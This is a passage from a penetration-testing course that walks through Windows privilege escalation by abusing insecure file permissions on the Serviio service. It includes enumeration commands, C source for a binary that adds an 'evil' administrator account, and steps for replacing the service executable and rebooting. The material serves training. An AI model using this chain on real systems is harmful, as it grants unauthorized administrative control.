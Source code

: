 As previously mentioned, a common way to elevate privileges on a Windows system is to exploit insecure file permissions on services that run as _nt authority\\system_.

For example, consider a scenario in which a software developer creates a program that runs as a Windows service. During the installation, the developer does not secure the permissions of the program, allowing full read and write access to all members of the _Everyone_ group. As a result, a lower-privileged user could replace the program with a malicious one. When the service is restarted or the machine is rebooted, the malicious file will be executed with SYSTEM privileges.

This type of vulnerability exists on our Windows client. Let's validate the vulnerability and exploit it.

In one of the previous sections, we showed how to list running services with _tasklist_. Alternatively, we could use the PowerShell Get-WmiObject cmdlet with the win32_service WMI class. In this example, we will pipe the output to Select-Object to display the fields we are interested in and use Where-Object to display running services ({$_.State -like 'Running'}):

```
PS C:\Users\student> Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}

Name                  State   PathName
----                  -----   --------
AudioEndpointBuilder  Running C:\Windows\System32\svchost.exe -k LocalSystemNetworkRes
Audiosrv              Running C:\Windows\System32\svchost.exe -k LocalServiceNetworkRe
...
Power                 Running C:\Windows\system32\svchost.exe -k DcomLaunch
ProfSvc               Running C:\Windows\system32\svchost.exe -k netsvcs
RpcEptMapper          Running C:\Windows\system32\svchost.exe -k RPCSS
RpcSs                 Running C:\Windows\system32\svchost.exe -k rpcss
SamSs                 Running C:\Windows\system32\lsass.exe
Schedule              Running C:\Windows\system32\svchost.exe -k netsvcs
SENS                  Running C:\Windows\system32\svchost.exe -k netsvcs
Serviio               Running C:\Program Files\Serviio\bin\ServiioService.exe
ShellHWDetection      Running C:\Windows\System32\svchost.exe -k netsvcs
...
```

Based on this output, the Serviio service stands out as it is installed in the Program Files directory. This means the service is user-installed and the software developer is in charge of the directory structure as well as permissions of the software. These circumstances make it more prone to this type of vulnerability.

As a next step, we'll enumerate the permissions on the target service with the _icacls_ Windows utility. This utility will output the service's Security Identifiers (or SIDs) followed by a permission mask, which are defined in the icacls documentation. The most relevant masks and permissions are listed below:

|MASK|PERMISSIONS|
|------|-----------------|
|F| Full Access |
|M|Modify access|
|RX|Read and execute access|
|R|Read-only access|
|W|Write-only access|

We can run icacls, passing the full service name as an argument. The command output will enumerate the associated permissions:

```
C:\Users\student> icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
C:\Program Files\Serviio\bin\ServiioService.exe BUILTIN\Users:(I)(F)
                                                NT AUTHORITY\SYSTEM:(I)(F)
                                                BUILTIN\Administrators:(I)(F)
                                                APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

As suspected, the permissions associated with the ServiioService.exe executable are quite interesting. Specifically, it appears that any user (BUILTIN\\Users) on the system has full read and write access to it. This is a serious vulnerability.[5](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/privilege-escalation/windows-privilege-escalation-examples/insecure-file-permissions-serviio-case-study#fn5)

In order to exploit this type of vulnerability, we can replace ServiioService.exe with our own malicious binary and then trigger it by restarting the service or rebooting the machine.

We'll demonstrate this attack with an example. The following C code will create a user named "evil" and add that user to the local Administrators group using the _system_ function. The compiled version of this code will serve as our malicious binary:

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user evil Ev!lpass /add");
  i = system ("net localgroup administrators evil /add");
  
  return 0;
}
```

Next, we'll cross-compile the code on our Kali machine with i686-w64-mingw32-gcc, using -o to specify the name of the compiled executable:

```
kali@kali:~$i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

> Listing 54 - Compiling the adduser.c code

We can transfer it to our target and replace the original ServiioService.exe binary with our malicious copy:

```
C:\Users\student> move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"
        1 file(s) moved.

C:\Users\student> move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
        1 file(s) moved.

C:\Users\student> dir "C:\Program Files\Serviio\bin\"
 Volume in drive C has no label.
 Volume Serial Number is 56B9-BB74

 Directory of C:\Program Files\Serviio\bin

01/26/2018  07:21 AM    <DIR>          .
01/26/2018  07:21 AM    <DIR>          ..
12/04/2016  08:30 PM               867 serviio.bat
01/26/2018  07:19 AM            48,373 ServiioService.exe
12/04/2016  08:30 PM                10 ServiioService.exe.vmoptions
12/04/2016  08:30 PM           413,696 ServiioService_original.exe
               4 File(s)        462,946 bytes
               2 Dir(s)   3,826,667,520 bytes free
```

In order to execute the binary, we can attempt to restart the service.

```
C:\Users\student> net stop Serviio
System error 5 has occurred.

Access is denied.
```

Unfortunately, it seems that we do not have enough privileges to stop the Serviio service. This is expected as most services are managed by administrative users.

Since we do not have permission to manually restart the service, we must consider another approach. If the service is set to "Automatic", we may be able to restart the service by rebooting the machine. Let's check the start options of the Serviio service with the help of the Windows Management Instrumentation Command-line:[8](https://portal.offensive-security.com/courses/pen-200/books-and-videos/modal/modules/privilege-escalation/windows-privilege-escalation-examples/insecure-file-permissions-serviio-case-study#fn8)

```
C:\Users\student>wmic service where caption="Serviio" get name, caption, state, startmode
Caption  Name     StartMode  State
Serviio  Serviio  Auto       Running
```

This service will automatically start after a reboot. Now, let's use the whoami command to determine if our current user has the rights to restart the system:

```
C:\Users\student>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

The listing above shows that our user has been granted shutdown privileges (_SeShutdownPrivilege_) (among others) and therefore we should be able to initiate a system shutdown or reboot. Note that the _Disabled_ state only indicates if the privilege is currently enabled for the running process. In our case, it means that whoami has not requested, and hence is not currently using, the _SeShutdownPrivilege_ privilege.

If the _SeShutdownPrivilege_ was not present, we would have to wait for the victim to manually start the service, which would be much less convenient for us.

Let's go ahead and reboot (/r) in zero seconds (/t 0):

```
C:\Users\student\Desktop> shutdown /r /t 0 
```

Now that the reboot is complete, we should be able to log in to the target machine using the username "evil" with a password of "Ev!lpass". After that, we can confirm that the evil user is part of the local Administrators group with the net localgroup command.

```
C:\Users\evil> net localgroup Administrators
Alias name     Administrators
Comment   Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
admin
Administrator
corp\Domain Admins
corp\offsec
evil
The command completed successfully.
```

Very Nice. We have used the insecure file permissions to replace the service program with our own malicious binary which, when run, granted us Administrative access to the system.